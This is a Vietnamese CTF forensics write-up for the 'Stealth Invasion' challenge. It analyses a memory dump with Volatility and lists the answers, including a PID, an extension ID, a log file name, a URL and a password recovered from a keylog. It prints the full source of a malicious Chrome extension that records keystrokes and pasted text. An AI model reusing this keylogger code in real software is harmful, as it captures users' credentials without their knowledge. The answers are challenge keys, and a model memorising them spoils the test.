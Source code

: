 # _Stealth Invasion_ _(FORSENSICS)_

![image](https://github.com/user-attachments/assets/cf31068e-2c57-45e6-abe8-f1d8833dbef8)

Bài cho file memdump.elf, lần đầu mình gặp file dump mà đuôi là elf nên liền check file cái đã

![image](images/19.png)

Vẫn đúng là file dump bth thôi, giờ dùng volatility để phân tích

>1. What is the PID of the Original (First) Google Chrome process:

Câu này dùng plugin windows.pslist

![image](images/20.png)

```
Answer: 4080
```

>2. What is the only Folder on the Desktop

Câu này dùng windows.filescan | grep desktop

![image](images/21.png)

```
Answer: malext
```

> 3. What is the Extention's ID (ex: hlkenndednhfkekhgcdicdfddnkalmdm)

Thấy trên `desktop` có được 1 số file `.js`, dump thử về xem sao (vì mình `grep` ID mãi mà nhập vô không đúng)

File `background.js`

```js
function addLog(s) {
    
    if (s.length != 1 && s !== "Enter" && !s.startsWith("PASTE"))  {
        s = `|${s}|`;
    } else if (s === "Enter" || s.startsWith("PASTE")) {
        s = s + "\r\n";
    }

    chrome.storage.local.get(["log"]).then((data) => {
        if (!data.log) {
            data.log = "";
        }

        data.log += s;

        chrome.storage.local.set({ 'log': data.log });
    });
}


chrome.runtime.onConnect.addListener((port) => {

    console.assert(port.name === "conn");
    console.log("v1.2.1");

    port.onMessage.addListener( ({ type, data }) => {
        if (type === 'key') {
            addLog(data);
        } else if (type == 'paste') {
            addLog('PASTE:' + data);
        }
    });
});

chrome.runtime.onMessage.addListener(
    function(request, sender, sendResponse) {
        if (request.check === "replace_html" && chrome.storage.local.get("replace_html")) {
            sendResponse({ url: chrome.storage.local.get('replace_html_url')});
        }
    }
);
```
File `content-script.js`

```js
var conn = chrome.runtime.connect({ name: "conn" });

chrome.runtime.sendMessage('update');

(async () => {
    const response = await chrome.runtime.sendMessage({ check: "replace_html" });
    console.log(response)
})();

chrome.runtime.sendMessage('replace_html', (response) => {
    conn.postMessage({ "type": "check", "data": "replace_html" });
});

document.addEventListener("keydown", (event) => {
    const key = event.key;
    conn.postMessage({ "type": "key", "data": key });
    return true;
});


document.addEventListener("paste", (event) => {
    let paste = event.clipboardData.getData("text/plain");
    conn.postMessage({ "type": "paste", "data": paste });
    return true;
});
```
Script trên là một phần của `Chrome Extensions`, nó như một `Keylogger` dùng để lưu lại lịch sử nhấn phím của người dùng. Hỏi chatgpt thì mình có được vị trí lưu

![image](images/22.png)


![image](images/23.png)

```
Answer: nnjofihdjilebhiiemfmdlpbdkbjcpae
```

>4. After examining the malicious extention's code, what is the log filename in which the datais stored

Ngay hình trên lấy được 1 tệp `.log`

```
Answer: 000003.log
```
>5. What is the URL the user navigated to

Mình dumpfiles `000003.log` về, tệp log này ghi lại lịch sử nhấn phím người dùng bởi `malicious extensions` ở trên

![image](images/24.png)

Có thể thấy người dùng truy cập vào drive.google.com rồi thực hiện login, nên từ đây có thể lấy được luôn đáp án cho câu 6

```
Answer: drive.google.com
```

>6. What is the password of selene@rangers.eldoria.com

![image](images/25.png)

```
Answer: clip-mummify-proofs
```


